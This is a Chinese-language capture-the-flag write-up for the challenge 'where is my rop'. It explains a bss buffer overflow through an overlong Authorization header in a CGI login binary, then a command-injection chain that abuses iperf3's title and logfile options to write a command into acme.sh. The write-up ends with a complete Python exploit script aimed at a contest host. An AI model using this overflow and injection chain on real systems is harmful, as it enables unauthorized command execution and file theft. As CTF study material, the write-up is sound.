



# where is my rop

> very nice apache, love from cgi

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

哪有什么rop，我只看到了命令注入。

分别分析了`basement`、`login.cgi`、`logout.cgi`、`gen_enc`，后两者代码很短，
看不出什么明显的漏洞。前三者都使用`/tmp/tpctf.sock`这个`AF_UNIX`socket来进行进程间通信。
其中`basement`中有命令执行，我们可以控制一些参数，但是对大多数符号做了过滤，
几乎没有绕过的方式，并且在`login.cgi`中没有明显的控制方式。

然后 *dbgbgtf* 发现了`login.cgi`在处理`Authorization`头时，程序校验完base64字符串，
并没有检查其长度。随后程序将`Basic `后的信息做base64解码并放到`char auth_buf[0x200]`上，
这一块数据位于bss上，并与`cmd`相邻。通过写入很长的base64的Authorization，可以覆盖`cmd`，
在`sendcmd`的时候可以实现发送任意指令。

> [!TIP]
> 本题的环境比较复杂，不方便在本地调试，可以在启动容器后，在其中安装gdbserver，
> 然后编写一个前置的cgi来代理login，方便在login被拉起的时候用gdb连上去：
>
> ```sh
> #!/bin/sh
> # /var/www/cgi-bin/prelogin.cgi
> gdbserver 127.0.0.1:1337 login.cgi "$@"
> ```

在socket中传输的数据大约是按照0x80来切块的，而数据是从Authorization中按`:`分割拿到的，
我们可以轻松控制。对于冒号之间字段长度的检验，除了最后一个字段，其他字段均需小于0x80，
亦即最后一个字段可以无限长。

观察命令执行中所禁止的字符，包括`\n & $ ; < > ^ |`和<code>&grave;</code>，
但是空格等字符没有拦截，会不会内置的命令可以利用的呢？使用`man`查看`ping`，
`traceroute`和`iperf3`，其中`iperf3`的客户端有`-T`和`--logfile`两个特殊选项，
第一个是在输出的所有行之前添加一个自己的title，第二个是将输出附加到某个文件中。
查看容器中的`acme.sh`，其中啥也没干，就很适合用来作为脚本的载体。通过先启动`iperf3`服务端，
然后用空格、引号等指导`iperf3`客户端向`acme.sh`中写入命令，就可以通过任意acme命令触发脚本。
比如说在`acme.sh`中写入`cp /*flaG* /var/www/html/flag.html`，执行后就可以将flag写入到html目录下，
这样访问`/flag.html`就可以拿到flag。

> [!NOTE]
> 赛后交流发现本题出网，因此有的师傅通过iperf3的文件将flag传出去。当然我这个解法不出网，
> 应该更加符合出题人的想法。只是没想到flag名称相比给的附件变得有点多，
> 先用`find / -maxdepth 1 -fprint /var/www/html/ls.html`列出有哪些文件，通过curl获取：
>
> 
>
> 一开始完全没想到g大写了，有点离谱... ~~才不是因为没有想到直接`/*f*`就行了~~

最后考虑怎样构造payload：由于我们修改了要执行的`cmd`，因此分支会相较我们的原动作有差异。
由于`cmd`非`LOGIN`和`REGISTER`，最终会走 **reset_password** 的逻辑，
因此在我们的Authorization中需要3个`:`才能成功执行`sendcmd`。



## EXPLOIT

```python
from pwn import *
import requests
import base64
from enum import Enum
BLUE_TEXT = lambda x: f'\x1b[34m{x}\x1b[0m'

class Commands(Enum):
    LOGIN =          1
    UPDATE_PASSWD =  2
    REGISTER =       3
    NEW_SESSION =    4
    DELETE_SESSION = 5
    IPERF3_SERVER =  6
    PING =           7
    TRACEROUTE =     8
    IPERF3_CLIENT =  9
    ACME_APPLY =    10
    ACME_RENEW =    11
    ACME_REVOKE =   12

def payload(lo: int):
    global sh, session_id
    if lo:
        host, port = '127.0.0.1', 80
    else:
        host, port = '61.147.171.105', 65519

    def new_session() -> str:
        url = f"http://{host}:{port}/cgi-bin/gen_enc"
        response = requests.get(url)
        return response.text[12:-14] # extract id from response
    
    def arbcmd(arg1: str, arg2: str, cmd: Commands):
        global session_id
        # last field can be extremely long
        auth = f"{arg1}:{arg2}:randstuff:".ljust(0x200).encode() + p8(cmd.value)
        headers = {
            'Authorization': f"Basic {base64.b64encode(auth).decode()}",
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        url = f"http://{host}:{port}/cgi-bin/login.cgi?reset_password"
        response = requests.post(url, f"id={session_id}", headers=headers)
        assert response.text # wait for data to come

    session_id = new_session()
    info(f"Fetch new session: {session_id}")

    info(f"{BLUE_TEXT(Commands.IPERF3_SERVER.name)} Launching iperf3 server...")
    arbcmd('127.0.0.1', '1337', Commands.IPERF3_SERVER)

    info(f"{BLUE_TEXT(Commands.IPERF3_CLIENT.name)} Injecting command into acme.sh...")
    # arbcmd('127.0.0.1', '1337 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)
    # why the flag name is so strange???
    arbcmd('127.0.0.1', '1337 -T "cp /*flaG* /var/www/html/flag.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)

    info(f"{BLUE_TEXT(Commands.ACME_APPLY.name)} Triggering acme.sh...")
    arbcmd(' ', ' ', Commands.ACME_APPLY)

    url = f"http://{host}:{port}/flag.html"
    response = requests.get(url)
    success(f"Flag is: {response.text.strip()}")
```


